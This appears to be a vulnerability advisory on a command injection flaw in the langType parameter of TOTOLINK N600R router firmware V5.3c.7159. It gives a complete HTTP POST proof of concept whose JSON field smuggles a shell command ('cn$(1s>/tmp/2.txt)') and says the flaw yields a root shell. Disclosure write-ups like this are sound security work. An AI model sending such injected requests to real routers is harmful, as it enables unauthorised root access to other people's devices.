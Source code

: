 # TOTOlink N600R V5.3c.7159_B20190425 Command injection vulnerability

## Overview

- Manufacturer's website information：http://www.totolink.cn
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36

## 1. Affected version

![image-20220406182121036](img/image-20220406182121036.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220406182509510](img/image-20220406182509510.png)

The content obtained by the program through the langtype parameter is passed to V6, and then the matched content is formatted into V9 through the sprintf function, and V9 is brought into the cstesystem function

![image-20220406182546918](img/image-20220406182546918.png)

At this time, corresponding to the parameter A1, the function assigns A1 to the array of V9, and finally executes the command through the execv function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V5.3c.7159_B20190425
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 135
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.asp?timestamp=1647874864
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1647869489:2
Connection: close

{"topicurl":"setting/setLanguageCfg",
"langType":"cn$(1s>/tmp/2.txt)"
	"operationMode":	0,
	"loginFlag":	0,
	"lanIp":	"192.168.0.1",
	"wanConnStatus":	"connected",
	"multiLangBt":	"",
	"langFlag":	0,
	"helpBt":	1,
	"languageType":	"cnnn",
	"helpUrl_":	"",
	"productName":	"N600R",
	"fmVersion":	"V5.3c.7159",
	"webTitle":	"",
	"copyRight":	"",
	"autoLangBt":	0,
	"CSID":	"CS160R"}
```

The reproduction results are as follows:

![image-20220406182653004](img/image-20220406182653004.png)

![image-20220406182703836](img/image-20220406182703836.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
